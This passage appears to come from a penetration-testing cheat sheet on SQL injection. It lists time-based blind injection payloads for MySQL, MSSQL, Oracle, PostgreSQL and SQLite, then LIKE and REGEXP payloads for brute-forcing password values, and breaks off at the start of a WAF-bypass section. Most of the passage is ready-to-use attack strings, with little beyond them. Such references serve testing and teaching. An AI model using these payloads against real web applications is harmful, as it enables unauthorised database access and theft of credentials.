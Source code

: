   

## [Blind Injection - Timing](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#blind-injection---timing)

Reference: [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#confirming-with-timing)

Using **sleep** method for each query, if results are displayed with a delay, SQLi affects that.

```html
<!-- MySQL -->
test' AND sleep(10)
test ' OR sleep(10)

<!-- MSSQL -->
test' WAITFOR DELAY '0:0:10'

<!-- Oracle -->
test' AND DBMS_SESSION.SLEEP(10)

<!-- PostgreSQL -->
test' AND pg_sleep(10)
test' OR pg_sleep(10)
test' || pg_sleep(10)

<!-- SQLite -->
test' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

  

## [Brute Force Values](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#brute-force-values)

```html
' password LIKE '%'-- -
' password LIKE BINARY '%'-- -

' password REGEXP '^[a-z]*'-- -
' password REGEXP BINARY '^[a-z]*'-- -
```

  

## [WAF Bypass](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#waf-bypass)

Reference: [OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

If website filters to prevent our payloads, we need to bypass the filter.

### [HTTP Parameter Pollution](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#http-parameter-pollution)
